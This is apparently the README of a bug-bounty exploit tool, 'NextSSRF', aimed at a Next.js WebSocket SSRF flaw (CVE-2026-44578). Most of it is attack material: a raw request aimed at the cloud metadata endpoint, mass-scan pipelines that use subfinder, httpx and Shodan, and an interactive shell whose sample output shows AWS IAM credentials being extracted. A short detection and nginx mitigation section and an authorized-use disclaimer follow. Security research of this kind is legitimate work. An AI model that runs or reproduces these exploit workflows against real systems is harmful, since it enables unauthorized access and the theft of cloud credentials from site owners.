

<div align="center">

```
╔══════════════════════════════════════════════════════════════╗
║         NextSSRF — CVE-2026-44578 Scanner & Exploit          ║
║   Next.js WebSocket Upgrade Handler SSRF                     ║
║   Affected: 13.4.13 → 15.5.15, 16.0.0 → 16.2.4              ║
║         @mitsec / ynsmroztas — Bug Bounty Tooling            ║
╚══════════════════════════════════════════════════════════════╝
```


**CVE-2026-44578** — Server-Side Request Forgery via Next.js WebSocket Upgrade Handler

[Overview](#overview) · [Install](#install) · [Usage](#usage) · [Pipeline](#pipeline) · [Shodan](#shodan) · [Interactive](#interactive-shell) · [Disclaimer](#disclaimer)

</div>

---

## Overview

On May 11, 2026, Vercel patched **CVE-2026-44578** (CVSS 8.6): an unauthenticated SSRF in Next.js's WebSocket upgrade handler affecting all self-hosted deployments from **13.4.13** onward.

### Mechanism

```
GET http://169.254.169.254/latest/meta-data/ HTTP/1.1   ← absolute-form URI
Host: vulnerable-nextjs.com
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
```

The `//` in `http://` triggers `normalizeRepeatedSlashes` early-exit, setting `statusCode: 308` and `finished: true`. The vulnerable upgrade handler **ignores both flags** and calls `proxyRequest` when `parsedUrl.protocol` is truthy — proxying the request to the attacker-controlled host on **port 80**.

```diff
// router-server.ts (vulnerable)
- if (parsedUrl.protocol) {
-     return await proxyRequest(req, socket, parsedUrl, head)
+ if (finished && parsedUrl.protocol) {
+     if (!statusCode) {
+         return await proxyRequest(req, socket, parsedUrl, head)
```

### Affected Versions

| Product         | Vulnerable         | Fixed    |
|-----------------|--------------------|----------|
| Next.js         | 13.4.13 – 15.5.15  | 15.5.16  |
| Next.js         | 16.0.0 – 16.2.4    | 16.2.5   |
| Vercel-hosted   | ✅ NOT affected     | N/A      |

### Limitations

- **GET only** (no POST/PUT)
- **Port 80 only** (explicit ports stripped by URL normalization)
- AWS **IMDSv2** not exploitable (requires PUT token)
- GCP metadata rejects `Upgrade: websocket` with 400
- Reverse proxies (nginx/caddy/HAProxy) block absolute-form URIs

---

## Demo



> AWS IMDSv1 credentials exfiltrated via CVE-2026-44578 — interactive exploit shell

---

## Install

```bash
git clone https://github.com/ynsmroztas/nextssrf
cd nextssrf
python3 nextssrf.py -t https://target.com
```

> **Zero dependencies** — Python stdlib only. Python 3.10+ required.

---

## Usage

### Single Target Scan

```bash
python3 nextssrf.py -t https://target.com
```

### Cloud-Specific Targeting

```bash
# AWS metadata only
python3 nextssrf.py -t https://target.com --cloud aws

# Custom internal target
python3 nextssrf.py -t https://target.com \
  --ssrf-host http://internal-api --path /admin

# Deep scan (+ internal services)
python3 nextssrf.py -t https://target.com --cloud aws --deep
```

### Mass Scan (Pipeline)

```bash
# subfinder + httpx + nextssrf
subfinder -d target.com | httpx -silent | \
  python3 nextssrf.py --pipe --threads 20 --cloud aws -o results.jsonl

# File input
python3 nextssrf.py -f targets.txt --threads 15 -o results.json

# Force scan (even if version unknown)
python3 nextssrf.py -t https://target.com --force
```

### Exit Codes

| Code | Meaning                |
|------|------------------------|
| `0`  | Not vulnerable / clean |
| `1`  | Vulnerable (no exploit)|
| `2`  | SSRF confirmed         |

---


## Interactive Shell

Advanced exploit shell with auto cloud detection and IAM credential extraction:

```bash
python3 nextssrf.py -t https://target.com
```

```
╔══════════════════════════════════════════════════╗
║  NextSSRF v2 — Interactive Exploit Shell         ║
║  Target : ec2-x-x-x-x.compute.amazonaws.com     ║
║  CVE    : CVE-2026-44578  |  Status: Connected   ║
╚══════════════════════════════════════════════════╝

nextssrf(ec2-x...)> cloud
  [>] Detecting cloud provider...
  ✓ AWS — matched: ['ami-id', 'instance-id', 'iam/', 'hostname']
  → Run 'aws' for full credential extraction

nextssrf(ec2-x...)> aws
  [1/3] Instance Information
  [200] Hostname    : ip-172-31-47-134.ec2.internal
  [200] AZ          : us-east-1d
  [200] Account ID  : {"AccountId": "370741706736"}

  [2/3] IAM Role Discovery
  ✓ IAM Role found: my-ec2-role

  [3/3] Credential Extraction
  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
  🎯 AWS CREDENTIALS EXFILTRATED!
  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
  AccessKeyId : ASIAXXXXXXXXXXXXXXXXXX
  SecretKey   : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
  Expiration  : 2026-05-14T22:32:22Z
```

### Shell Commands

| Command        | Description                              |
|----------------|------------------------------------------|
| `cloud`        | Auto-detect cloud (AWS/Azure/GCP/DO/OCI) |
| `aws`          | Full AWS IAM credential chain            |
| `azure`        | Azure managed identity token             |
| `scan`         | Cloud detect + auto exploit              |
| `url <http://>`| Custom SSRF request                      |
| `get <N>`      | AWS IMDS target by index                 |
| `list`         | Show all IMDS endpoints                  |
| `history`      | Request history                          |
| `save`         | Export session to JSON                   |
| `quit`         | Exit                                     |

### Auto Mode

```bash
# Detect cloud + run full exploit chain automatically
python3 nextssrf.py -t https://target.com --auto
```

---

## Pipeline Examples

```bash
# Full recon → exploit pipeline
subfinder -d target.com \
  | httpx -silent -server \
  | grep -i "next" \
  | python3 nextssrf.py --pipe --cloud aws --deep -o findings.jsonl

# Shodan mass scan → interactive on confirmed hosts
python3 shodan_nextjs.py --key KEY --org "TargetCorp" \
  | python3 nextssrf.py --pipe --cloud aws -o hits.jsonl

# Check specific version range
cat hosts.txt \
  | python3 nextssrf.py --pipe --force --cloud aws \
  | jq '.[] | select(.ssrf_hits | length > 0)'
```

---

## Detection (Blue Team)

Signs of exploitation in logs:

```
# Next.js process logs
Failed to proxy http:/   ← single slash = normalization fingerprint

# Access logs (absolute-form URI + Upgrade header)
GET http://169.254.169.254/... HTTP/1.1
Connection: Upgrade
Upgrade: websocket
```

### Mitigation (if can't patch)

```nginx
# Nginx: reject absolute-form request URIs
if ($request_uri ~* "^https?://") {
    return 400;
}
```


---

## References

- [GHSA-c4j6-fc7j-m34r](https://github.com/vercel/next.js/security/advisories/GHSA-c4j6-fc7j-m34r)
- [NVD CVE-2026-44578](https://nvd.nist.gov/vuln/detail/CVE-2026-44578)
- [Next.js Security Release May 2026](https://nextjs.org/blog/security-release-2026-05)
- [Hadrian Technical Analysis](https://hadrian.io/blog/next-js-websocket-ssrf-unauthenticated-access-to-internal-resources-cve-2026-44578-2)

---

## Disclaimer

> **For authorized security testing and bug bounty research only.**
> Use only against systems you own or have explicit written permission to test.
> The authors are not responsible for misuse or unauthorized use.
> Always follow your bug bounty program's rules of engagement.

---

<div align="center">

Made with ❤️ by [@mitsec](https://github.com/ynsmroztas) · [ynsmroztas.github.io](https://ynsmroztas.github.io)

**Top Hacker @ Intigriti · 100+ HOF · 2430+ Vulnerabilities · 1100+ P1 Critical**

</div>
